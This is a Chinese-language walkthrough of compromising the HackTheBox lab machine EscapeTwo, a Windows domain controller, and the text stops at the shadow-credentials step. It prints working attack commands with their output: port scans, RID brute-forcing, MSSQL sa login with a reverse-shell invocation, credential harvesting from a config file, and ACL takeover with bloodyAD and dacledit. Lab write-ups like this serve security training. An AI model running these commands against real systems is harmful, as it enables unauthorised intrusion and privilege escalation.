









# Windows渗透实战之EscapeTwo-先知社区

> **来源**: https://xz.aliyun.com/news/16721  
> **文章ID**: 16721

---

# 靶机信息

靶机链接：<https://app.hackthebox.com/machines/EscapeTwo>靶机IP：10.10.11.51

```
Machine Information
As is common in real life Windows pentests, you will start this box with credentials for the following account: rose / KxEPkKe6R8su
```

# 渗透过程

## 初始侦察

### nmap端口扫描

```
sudo nmap -sT --min-rate 10000 -p- 10.10.11.51 -oA nmapscan/ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49685/tcp open  unknown
49686/tcp open  unknown
49689/tcp open  unknown
49702/tcp open  unknown
49723/tcp open  unknown
49744/tcp open  unknown
49808/tcp open  unknown
```

端口数据格式化，同时指定给变量ports，方便使用：

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ grep open nmapscan/ports.nmap | awk -F'/' '{print $1}' | paste -sd ','
53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49685,49686,49689,49702,49723,49744,49808
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ ports=$(grep open nmapscan/ports.nmap | awk -F'/' '{print $1}' | paste -sd ',')
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ echo $ports                           
53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49685,49686,49689,49702,49723,49744,49808
```

### 详细信息扫描

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ nmap -sTVC -O -p$ports 10.10.11.51
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-30 07:22:45Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
|_ssl-date: 2025-01-30T07:24:33+00:00; -16m20s from scanner time.
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-30T07:24:32+00:00; -16m20s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
1433/tcp  open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
|   10.10.11.51:1433:
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info:
|   10.10.11.51:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-01-30T07:24:33+00:00; -16m20s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-30T07:10:54
|_Not valid after: 2055-01-30T07:10:54
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-30T07:24:33+00:00; -16m20s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
3269/tcp  open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-30T07:24:32+00:00; -16m20s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open     mc-nmf        .NET Message Framing
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49685/tcp filtered unknown
49686/tcp filtered unknown
49689/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49702/tcp filtered unknown
49723/tcp filtered unknown
49744/tcp filtered unknown
49808/tcp filtered unknown
```

将DC01.sequel.htb及sequel.htb添加到/etc/hosts文件中

### UDP扫描

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ nmap -sU --top-ports 20 -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49685,49686,49689,49702,49723,49744,49808 10.10.11.51 
PORT      STATE         SERVICE
53/udp    open          domain
88/udp    open          kerberos-sec
135/udp   open|filtered msrpc
139/udp   open|filtered netbios-ssn
389/udp   open          ldap
445/udp   open|filtered microsoft-ds
464/udp   open|filtered kpasswd5
593/udp   open|filtered http-rpc-epmap
636/udp   open|filtered ldaps
1433/udp  open|filtered ms-sql-s
3268/udp  open|filtered msft-gc
3269/udp  open|filtered msft-gc-ssl
5985/udp  open|filtered wsman
49685/udp open|filtered unknown
```

通过前面信息的扫描，该机器大概率为一个标准的域控制器，漏洞脚本扫描意义不大，在此省略。简单汇总并解释一下端口：

```
53/tcp 和 53/udp - domain：⽤于域名系统（DNS），⽤于将域名转换为对应的IP地址和反向操作
88/tcp 和 88/udp - kerberos-sec：⽤于Kerberos认证协议，⽤于⽹络身份验证。
135/tcp - msrpc：⽤于Microsoft远程过程调⽤（MSRPC），主要⽤于在⽹络上执⾏远程操作。
139/tcp - netbios-ssn：⽤于NetBIOS会话服务，⽤于在⽹络上共享⽂件和打印机等资源。
389/tcp 和 389/udp - ldap：⽤于轻型⽬录访问协议（LDAP），⽤于在⽹络上访问和维护⽬录信息。
445/tcp - microsoft-ds：⽤于Microsoft的共享⽂件和打印机服务，也称为Server Message Block （SMB）。
464/tcp - kpasswd5：⽤于Kerberos密码修改协议，⽤于在⽹络上修改Kerberos认证的密码。
593/tcp - http-rpc-epmap：⽤于Microsoft远程过程调⽤（RPC）端⼝映射，⽤于远程通信。
636/tcp - ldapssl：⽤于加密的轻型⽬录访问协议（LDAP），安全的LDAP通信。
3268/tcp 和 3269/tcp - globalcatLDAP 和 globalcatLDAPssl：⽤于全局⽬录服务的LDAP通信，⽤ 于在多个域之间搜索和查找⽤户信息。
5985/tcp - wsman：⽤于Web Services Management（WS-Management），⽤于远程管理和监视 Windows系统。
9389/tcp - adws：⽤于Active Directory Web Services（ADWS），⽤于在⽹络上管理Active Directory域。
470001/tcp - winrm Windows远程管理服务,⽤于Windows系统的远程管理和配置
49664,49665,49666,49667,49685,49686,49689,49702,49723,49744,49808这些为动态随机端口
```

### 关于端⼝范围的约定

端⼝号的范围从0到65535，根据⽤途和约定，这个范围被划分为三个主要部分：

1. 知名端⼝（Well-Known Ports）：0-1023：这些端⼝号被IANA（互联⽹号码分配局）分配给 了特定的服务。例如，HTTP服务通常使⽤端⼝80，HTTPS使⽤端⼝443，⽽FTP使⽤端⼝ 21。因为这些端⼝号关联到了⼴泛使⽤的服务，它们通常不建议⽤于其他服务。
2. 注册端⼝（Registered Ports）：1024-49151：这部分的端⼝号⽤于⽤户和公司的应⽤程 序。虽然这些端⼝没有被固定分配给特定的服务，但许多应⽤程序为了避免冲突，会向IANA 注册它们使⽤的端⼝号。例如，微软的SQL Server默认使⽤端⼝1433。这些端⼝可以被⽹络 管理员⾃由使⽤，但最好避免使⽤那些已经被其他常⻅应⽤程序注册的端⼝。
3. 动态和/或私有端⼝（Dynamic and/or Private Ports）：49152-65535：这部分的端⼝号不 由IANA管理，可以⾃由⽤于内部或私有服务，以及动态端⼝分配。当应⽤程序或服务需要临 时通信端⼝时，就会使⽤这个范围内的端⼝。这些端⼝经常被⽤作客户端软件的临时端点。端⼝使⽤的⼀般规范：
4. 避免冲突：在配置⾃⼰的服务时，应避免使⽤已由其他服务占⽤的知名端⼝和注册端⼝，以防 ⽌端⼝冲突。
5. 安全考虑：某些端⼝可能会受到特定安全策略或防⽕墙规则的限制。例如，许多公司会封锁⼊ 站的知名端⼝以防⽌未授权访问。
6. 动态端⼝分配：许多操作系统和⽹络库会⾃动选择动态或私有端⼝范围内的端⼝作为临时通信 端点。在设计和部署⽹络服务时，合理地选择和管理端⼝号是很重要的。这不仅涉及到技术层⾯的兼容性 和安全性，也关乎到遵循互联⽹社区的共同约定，以确保⽹络服务的顺畅运⾏。总之，对端⼝要能够检索和归类思考，端⼝开放有⼀定的必然性，也会⼈为改为其他的，但值得尝试。

### TCP 445端口SMB服务渗透

初始凭据：rose / KxEPkKe6R8su指定--rid-brute爆破一下用户，且使用grep过滤出想要的结果

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ crackmapexec smb sequel.htb -u "rose" -p "KxEPkKe6R8su" --rid-brute | grep 'SidTypeUser'
SMB DC01.sequel.htb 445 DC01 500: SEQUEL\Administrator (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 501: SEQUEL\Guest (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 502: SEQUEL\krbtgt (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 1000: SEQUEL\DC01$ (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 1103: SEQUEL\michael (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 1114: SEQUEL\ryan (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 1116: SEQUEL\oscar (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 1122: SEQUEL\sql_svc (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 1601: SEQUEL\rose (SidTypeUser)
SMB DC01.sequel.htb 445 DC01 1607: SEQUEL\ca_svc (SidTypeUser)
```

#### 使用smbclient列出SMB共享文件夹

```
smbclient -U rose -L 10.10.11.51
Sharename       Type      Comment
---------       ----      -------
Accounting      Department Disk
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
Users           Disk
```

#### 使用smbclient去访问共享文件夹

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ smbclient //10.10.11.51/'Accounting Department' -U rose
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 18:52:21 2024
  ..                                  D        0  Sun Jun  9 18:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 18:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 18:52:07 2024
```

在Accounting Department下存在xlsx文件，使用get下载下来查看accounts.xlsx文件存在多组凭据



拿到这些凭据，可以考虑爆破，但要针对性的爆破，看到表格中的密码涉及了mssql，考虑会不会是mssql的账号密码我们结助netexec来爆破，当然也可以根据密码的特殊性，先尝试一下sa这组凭据

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ netexec mssql sequel.htb -u sa -p MSSQLP@ssw0rd!
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')
```

在命令后加上--local-auth

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

## 系统立足点

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]                                     
└─$ netexec mssql --help
Command Execution:
  options for executing commands
  --no-output           do not retrieve command output
  -x COMMAND            execute the specified command
  -X PS_COMMAND         execute the specified PowerShell command
```

可以使用-x参数执行powershell反弹shell命令

netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x 'powershell -e ...'



获得sql\_svc的shell，但当前用户并没有user.txt，同时在Users下发现了ryan，猜测user.txt在他的目录下在C:下发现SQL2019,cd进去发现ExpressAdv\_ENU在该目录下发现sql-Configuration.INI

```
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

找到一个密码：WqSZAF6CysDQbGb3

### evil-winrm启动！

evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3



## 提权分析

## BloodHound枚举

```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo/nmapscan]
└─$ bloodhound-python -c All -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51 -d sequel.htb  --zip
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 01M 08S
INFO: Compressing output into 20250130164601_bloodhound.zip
```



ryan对ca\_svc用户有WriteOwener权限，先将ryan设置成owner参考：<https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-acl-ace/#writedacl>



```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ bloodyAD --host '10.10.11.51' -d 'sequel.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```

然后利用dacledit修改ACL参考：<https://exploit-notes.hdks.org/exploit/windows/active-directory/dacl-attack/#2.-read-dacl>



```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]                                  
└─$ impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6Cy
sDQbGb3" 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] DACL backed up to dacledit-20250130-172736.bak
[*] DACL modified successfully!
```

## 获取Shadow Credentials

参考：<https://exploit-notes.hdks.org/exploit/windows/active-directory/shadow-credentials/>



```
┌──(kali㉿kali)-[~/rednotes/EscapeTwo]
└─$ certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
